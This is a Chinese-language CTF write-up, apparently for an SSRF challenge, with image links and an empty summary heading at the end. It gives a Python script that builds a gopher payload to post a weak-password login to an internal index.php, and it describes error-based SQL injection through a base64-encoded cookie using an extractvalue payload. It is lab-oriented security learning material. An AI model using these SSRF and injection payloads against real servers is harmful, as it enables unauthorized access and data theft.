 - 由于最开始的index.php界面需要是内网用户，且需要输入密码，因此找到可以curl的地方。
- 查看源码，发现/use.php(草，太久没做，查看源码都忘了)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1681725788452-900c5236-1204-49cb-96de-70365693c735.png#averageHue=%23fbfbfa&clientId=u775767ba-4dce-4&from=paste&height=203&id=kbwJy&originHeight=405&originWidth=952&originalType=binary&ratio=2&rotation=0&showTitle=false&size=42127&status=done&style=none&taskId=ue9cd70b6-76aa-45ee-a78f-9a8e2c48942&title=&width=476)
### gopher+弱密码登录

- 可以用gopher访问127.0.0.1:80的index.php界面，上脚本，尝试用gopher+弱密码登录。burp抓包，访问/use.php。
```python
import urllib.parse
import base64


host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"

# str = "admin') and extractvalue(1, concat(0x7e, (substr((select group_concat(flag) from flag), 20,50)),0x7e)) #"
# # 将字符串编码为bytes类型，然后使用base64.b64encode()函数进行Base64编码
# encoded_bytes = base64.b64encode(str.encode('utf-8'))

# # 将bytes类型的编码结果转换为字符串类型
# encoded_str = encoded_bytes.decode('utf-8')

content_length = len(content)
# cookie = f'this_is_your_cookie={encoded_str}'
test =\
"""POST /index.php HTTP/1.1
Host: {}
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length, content)#\用于将字符串延续到下一行

tmp = urllib.parse.quote(test) 
new = tmp.replace("%0A","%0D%0A")#需要用%0d%0a换行
result = urllib.parse.quote(new) #二次url编码，因为php在收到后就进行了一次解码
print("gopher://"+host+"/_"+result)


```

- 此时有回显，发现cookie处是admin经过base64加密的结果

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1681726145844-d463442a-6dba-49c0-ac59-2933580a9f10.png#averageHue=%23f0f0f0&clientId=u775767ba-4dce-4&from=paste&height=214&id=OnZgK&originHeight=428&originWidth=1216&originalType=binary&ratio=2&rotation=0&showTitle=false&size=29856&status=done&style=none&taskId=u42b121ff-4b78-4549-a28f-fe941222623&title=&width=608)
### cookie注入

- 在发的包里加一个`Cookie=this_is_your_cookie=此处填写base64_encode(注入的payload)`
- 这里用`admin')#`测试成功，很奇怪
- 发现可以报错注入，用extractvalue + 爆破信息的语句即可获得flag
## 总结
